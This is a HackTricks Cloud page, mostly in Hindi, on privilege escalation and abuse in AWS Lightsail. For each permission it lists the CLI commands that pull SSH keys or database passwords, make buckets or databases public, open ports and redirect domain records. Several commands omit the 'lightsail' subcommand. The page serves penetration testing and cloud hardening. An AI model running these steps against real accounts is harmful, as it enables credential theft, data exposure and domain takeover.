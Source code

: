 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Lightsail के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
यह ध्यान रखना महत्वपूर्ण है कि Lightsail **उपयोगकर्ता के IAM भूमिकाओं का उपयोग नहीं करता** बल्कि एक AWS प्रबंधित खाते का उपयोग करता है, इसलिए आप इस सेवा का दुरुपयोग करके प्रिवेस्क नहीं कर सकते। हालाँकि, **संवेदनशील डेटा** जैसे कोड, API कुंजी और डेटाबेस जानकारी इस सेवा में मिल सकती है।
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

यह अनुमति आपको उदाहरणों तक पहुँचने के लिए SSH कुंजी प्राप्त करने की अनुमति देगी:
```
aws lightsail download-default-key-pair
```
**संभावित प्रभाव:** इंस्टेंस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:GetInstanceAccessDetails`

यह अनुमति आपको इंस्टेंस तक पहुँचने के लिए SSH कुंजी उत्पन्न करने की अनुमति देगी:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**संभावित प्रभाव:** इंस्टेंस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:CreateBucketAccessKey`

यह अनुमति आपको बकेट तक पहुँचने के लिए एक कुंजी प्राप्त करने की अनुमति देगी:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**संभावित प्रभाव:** बकेट के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:GetRelationalDatabaseMasterUserPassword`

यह अनुमति आपको डेटाबेस तक पहुँचने के लिए क्रेडेंशियल्स प्राप्त करने की अनुमति देगी:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:UpdateRelationalDatabase`

यह अनुमति आपको डेटाबेस तक पहुँचने के लिए पासवर्ड बदलने की अनुमति देगी:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

यदि डेटाबेस सार्वजनिक नहीं है, तो आप इसे इस अनुमति के साथ सार्वजनिक भी बना सकते हैं

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:OpenInstancePublicPorts`

यह अनुमति इंटरनेट के लिए पोर्ट खोलने की अनुमति देती है।
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**संभावित प्रभाव:** संवेदनशील पोर्ट्स तक पहुँच।

### `lightsail:PutInstancePublicPorts`

यह अनुमति इंटरनेट पर पोर्ट खोलने की अनुमति देती है। ध्यान दें कि कॉल किसी भी पोर्ट को बंद कर देगी जो इसमें निर्दिष्ट नहीं है।
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**संभावित प्रभाव:** संवेदनशील पोर्ट्स तक पहुँच।

### `lightsail:SetResourceAccessForBucket`

यह अनुमति एक इंस्टेंस को बिना किसी अतिरिक्त क्रेडेंशियल के एक बकेट तक पहुँच देने की अनुमति देती है।

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**संभावित प्रभाव:** संवेदनशील जानकारी वाले बकेट्स तक संभावित नई पहुंच।

### `lightsail:UpdateBucket`

इस अनुमति के साथ एक हमलावर अपने AWS खाते को बकेट्स पर पढ़ने की पहुंच दे सकता है या यहां तक कि बकेट्स को सभी के लिए सार्वजनिक बना सकता है:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**संभावित प्रभाव:** संवेदनशील जानकारी वाले बकेट्स तक संभावित नई पहुंच।

### `lightsail:UpdateContainerService`

इन अनुमतियों के साथ, एक हमलावर कंटेनर सेवा से निजी ECRs तक पहुंच प्रदान कर सकता है।
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**संभावित प्रभाव:** निजी ECR से संवेदनशील जानकारी प्राप्त करें

### `lightsail:CreateDomainEntry`

इस अनुमति के साथ एक हमलावर उपडोमेन बना सकता है और इसे अपने स्वयं के IP पते की ओर इंगित कर सकता है (उपडोमेन अधिग्रहण), या एक SPF रिकॉर्ड तैयार कर सकता है जो उसे डोमेन से ईमेल धोखा देने की अनुमति देता है, या यहां तक कि मुख्य डोमेन को अपने स्वयं के IP पते पर सेट कर सकता है।
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**संभावित प्रभाव:** एक डोमेन का अधिग्रहण

### `lightsail:UpdateDomainEntry`

इस अनुमति के साथ एक हमलावर उपडोमेन बना सकता है और इसे अपने स्वयं के IP पते की ओर इंगित कर सकता है (उपडोमेन अधिग्रहण), या एक SPF रिकॉर्ड तैयार कर सकता है जो उसे डोमेन से ईमेल धोखा देने की अनुमति देता है, या यहां तक कि मुख्य डोमेन को अपने स्वयं के IP पते पर सेट कर सकता है।
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**संभावित प्रभाव:** एक डोमेन पर कब्जा

{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** पर **फॉलो करें**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें.

</details>
{% endhint %}
